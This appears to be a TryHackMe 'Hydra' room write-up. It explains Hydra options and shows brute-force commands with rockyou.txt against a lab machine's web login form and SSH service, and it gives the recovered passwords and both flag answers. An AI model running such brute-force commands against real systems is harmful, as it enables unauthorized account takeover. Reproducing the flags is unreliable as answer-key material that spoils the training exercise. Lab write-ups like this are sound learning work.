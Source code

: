 ```yaml
---
{"dg-publish":true,"permalink":"/try-hack-me/rooms/hydra/","created":"2024-11-04T16:15:42.215-05:00","updated":"2025-03-11T00:32:59.173-04:00"}
---
```


# Task 2 - Using Hydra

| Option              | Description                                                                            |
| ------------------- | -------------------------------------------------------------------------------------- |
| -l                  | specifies the (SSH) username for login                                                 |
| -P                  | indicates a list of passwords                                                          |
| -t                  | sets the number of threads to spawn                                                    |
| http-post-form      | the type of the form is POST                                                           |
| path              | the login page URL, for example, login.php                                             |
| login_credentials | the username and password used to log in, for example, username=^USER^&password=^PASS^ |
| invalid_response  | part of the response when the login fails                                              |
| -V                  | verbose output for every attempt                                                       |

- Example command to brute force ftp    
    - `hydra -l user -P passlist.txt [ftp://MACHINE_IP](ftp://MACHINE_IP)`
- Another example
    - `hydra -l <username> -P <wordlist> 10.10.71.57 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

> [!Question]
> **Use Hydra to bruteforce molly's web password. What is flag 1?**

Going to the target IP address gives us a web login from with a username and password,

 ![Exported image](/img/user/TryHackMe/THM_Images/6acea8dcaa459a0a51bc6bac7a46278c.png)  

Checking the page source tells us that its using a "POST" method as the request type

 ![Exported image](/img/user/TryHackMe/THM_Images/4caa7657ba57ccde9af7565786a80179.png)

Ran the command

```
hydra -l molly -P rockyou.txt 10.10.71.57 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect"
```
   
![Exported image](/img/user/TryHackMe/THM_Images/d3bfcde61619b5012049d3a2a6e334f6.png)  

Using the username, molly, and the password, sunshine, allows us to make it through and login to find the flag.

![Exported image](/img/user/TryHackMe/THM_Images/8b26c6071413b8325dd2a902f06fd47d.png)  

> [!Success] Answer
> THM{2673a7dd116de68e85c48ec0b1f2612e}

> [!Question]
> **Use Hydra to bruteforce molly's SSH password. What is flag 2?** 

Used the following command to find the SSH password: 

```
hydra -l molly -P rockyou.txt 10.10.71.57 -t 4 ssh
```

![Exported image](/img/user/TryHackMe/THM_Images/b63f779eaf9859ed2e22f534b6bea215.png)  

Then SSH'd into molly's machine to get the flag using the password, butterfly.

![Exported image](/img/user/TryHackMe/THM_Images/12d9adee146e29ab4487aaf9bc440b49.png)  

> [!Success] Answer
> THM{c8eeb0468febbadea859baeb33b2541b}

